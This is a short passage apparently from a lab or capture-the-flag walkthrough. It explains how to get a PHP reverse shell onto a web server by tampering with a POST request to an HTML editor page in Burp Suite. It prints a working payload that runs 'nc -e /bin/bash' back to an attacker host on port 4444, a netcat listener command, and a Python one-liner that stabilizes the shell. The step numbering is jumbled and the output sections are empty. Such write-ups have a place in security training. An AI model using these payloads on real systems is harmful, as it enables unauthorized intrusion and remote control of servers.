

4.1 Upload a "PHP reverse shell"
1. Intercept with Burp Suite Proxy the page http://192.168.12.73/default.htm.
3. Go to “Demo->Edit Static HTML”.
4. Click on the “Save” button.
5. In Burp Suite choose the “POST /Edithtml.php?postback=true” line.
6. Send it to “Repeater”.
7. Change the highlighted code to
“Editor1=<?php+system('nc+-e+/bin/bash+192.168.12.60+4444');?>&Editor1ClientState=&Save.x=9&Save.y=6&textbox1=%3C%3Fphp%2Bsystem%28%27nc+-e+%2Fbin%2Fbash+192.168.12.60+4444%27%29%3B%3F%3E++++++++++++”
5. On your Kali Machine open a “netcat” connection.
$ nc -lnvp 4444
Output:
6. In Burp Suite Repeater send the request and wait for a while. You'll get a connection on your “netcat” connection.
Output:
7. Stabilize the shell.
$ python3 -c 'import pty;pty.spawn("/bin/bash")'Output:
